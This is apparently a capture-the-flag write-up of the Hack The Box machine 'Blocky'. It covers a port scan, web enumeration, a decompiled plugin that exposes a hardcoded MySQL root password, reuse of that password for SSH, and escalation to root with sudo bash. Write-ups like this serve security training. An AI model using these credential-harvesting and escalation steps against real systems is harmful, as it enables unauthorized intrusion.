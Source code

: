 1,Recon
port scan
```
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Firstly, by checking the service of port 80, we found it was powered by WordPress 4.8

So I would want to check the existed web-content
```
.htaccess               
index.php               
javascript              
.hta                    
.htpasswd               
phpmyadmin              
plugins                 
server-status           
wiki                    
wp-admin                
wp-includes             
wp-content              
xmlrpc.php              
```

`/wp-admin` and `/phpmyadmin` would be our target.But we did not have any valid credits for both of them.

And because of we have known the version of `wordpress` is 4.8.So we can check the versions of its plugins.

![](images/Pasted%20image%2020241102081159.png)

Looking at the jar files, griefprevention is an open source plugin that is freely available.
BlockyCore, however, appears to be created by the server administrator, as its title relates
directly to the server. Decompiling with JD-GUI exposes the credentials for the root MySQL user.
```
package com.myfirstplugin;  
  
public class BlockyCore {  
  public String sqlHost = "localhost";  
    
  public String sqlUser = "root";  
    
  public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";  
    
  public void onServerStart() {}  
    
  public void onServerStop() {}  
    
  public void onPlayerJoin() {  
    sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");  
  }  
    
  public void sendMessage(String username, String message) {}  
}
```

So we get the database credit `root:8YsqfCTnvxAUeduzjNSXe22`

Then we can use this credit to login to `/phpMyAdmin` page
![](images/Pasted%20image%2020241102081421.png)

After enumerate the database, we found the valid user's password hash and username
![](images/Pasted%20image%2020241102081921.png)

We can use hashcat or john to crack that, but it seems like a rabbit hole, we could not crack it in a few minutes.

So maybe, we can try to use the password of database and the valid username `notch` to use ssh to get the shell as notch.

Luckily, it worked.

2,shell as root
When I check what can notch do as root, we get the tricky result
```
sudo -l
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL

```

so we just need to `sudo /bin/bash -p`, then get the root shell.
